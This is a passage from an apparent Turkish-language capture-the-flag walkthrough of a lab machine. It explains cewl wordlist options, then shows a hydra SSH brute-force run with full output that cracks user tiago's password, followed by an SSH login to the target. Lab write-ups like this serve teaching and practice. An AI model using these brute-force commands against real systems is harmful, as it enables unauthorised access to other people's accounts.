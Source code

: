 Parametreler şu şekilde:
* `-d` derinlik demek. Yani web sitesinde ne kadar derine gidecek.
* `-m` minimum uzunluk demek. En kısa parola uzunluğu.
* `-w` çıktının kaydedileceği dosya.

Bu dosyayı kullanaraş bruteforce yöntemi ile şifreyi kırmayı deneyebiliriz. Şansımız yaver giderse ...


Sıra geldi `hydra` ile ssh şifresi kırmaya. `hydra` gelişmiş bi şifre kırma aracıdır. Kali ve parrot da kurulu olarak gelir. Programı şu şekilde kullanabiliriz.

```
┌─[✗]─[root@HATSAT]─[/home/hatsat/TMP]
└──╼ #hydra 172.16.0.177 ssh -l tiago -P cewl_pass_tiago.txt 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-11 17:59:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 603 login tries (l:1/p:603), ~38 tries per task
[DATA] attacking ssh://172.16.0.177:22/
[22][ssh] host: 172.16.0.177   login: tiago   password: Virgulino
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-11 17:59:28
```

Parametreler:
* `ssh` kullanılan protokol.
* `-l` kullanıcının ismi. Bu örnekte `tiago`
* `-P` wordlist. cewl ile oluşturduğumuz wordlist.

Bu komut ile parolayı bulduk. Parola: `Virgulino`

## SSH Login ve Sonrası

Bu bilgiler ile SSH ile sisteme login olabiliriz. `ssh tiago@172.16.0.177` komutu ile. Şu anda sistemdeyiz fakat henüz root değiliz.

```
┌─[hatsat@HATSAT]─[~]
└──╼ $ssh tiago@172.16.0.177
tiago@172.16.0.177's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Nov 11 18:15:51 BRST 2018

  System load:  0.07              Processes:           174
  Usage of /:   7.5% of 19.07GB   Users logged in:     0
  Memory usage: 27%               IP address for eth0: 172.16.0.177
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

New release '16.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Nov 11 18:15:51 2018 from 172.16.0.106
tiago@lampiao:~$ 
```
